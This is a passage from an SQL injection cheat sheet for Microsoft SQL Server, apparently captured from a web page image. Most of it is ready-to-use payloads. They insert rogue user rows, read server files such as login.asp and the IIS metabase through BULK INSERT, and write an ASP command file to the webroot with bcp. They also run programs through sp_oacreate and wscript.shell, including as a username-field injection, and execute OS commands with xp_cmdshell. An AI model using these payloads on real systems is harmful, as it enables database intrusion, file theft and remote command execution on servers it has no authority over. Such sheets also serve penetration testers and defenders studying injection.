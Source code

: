     `Microsoft OLE DB Provider for SQL Server error '80040e07'  
    Explicit conversion from data type  **int**  to image  is not allowed.`

**You’ll get convert() errors before union target errors !** So  start with  convert() then union

### Simple Insert (MSO+)

`'; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*`

### Useful Function / Information Gathering / Stored Procedures / Bulk SQL Injection Notes

**@@version**  (MS)  
Version of database and more details for SQL Server. It's a constant. You can just select it like any other column, you don't need to supply table name. Also you can use insert, update statements or in functions.

`INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10)  ,10)`

#### Bulk Insert (S)

Insert a file content to a table. If you don't know internal path of web application you can  **read IIS (**_IIS 6 only_**) metabase file** (_%systemroot%\system32\inetsrv\MetaBase.xml_) and then search in it to identify application path.

1.  Create table foo( line varchar(8000) )
2.  bulk insert foo from 'c:\inetpub\wwwroot\login.asp'
3.  _Drop temp table, and repeat for another file._

#### BCP (S)

Write text file. Login Credentials are required to use this function.  
`bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar`

#### VBS, WSH in SQL Server (S)

You can use VBS, WSH scripting in SQL Server because of ActiveX support.

`declare @o int  
exec sp_oacreate 'wscript.shell', @o out  
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'  
``_Username:_  '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' --  
`

#### Executing system commands, xp_cmdshell (S)

Well known trick, By default it's disabled in  _SQL Server 2005._ You need to have admin access.

`EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'`  

Simple ping check (_configure your firewall or sniffer to identify request before launch it_),

`EXEC master.dbo.xp_cmdshell 'ping  '`

You can not read results directly from error or union or something else.
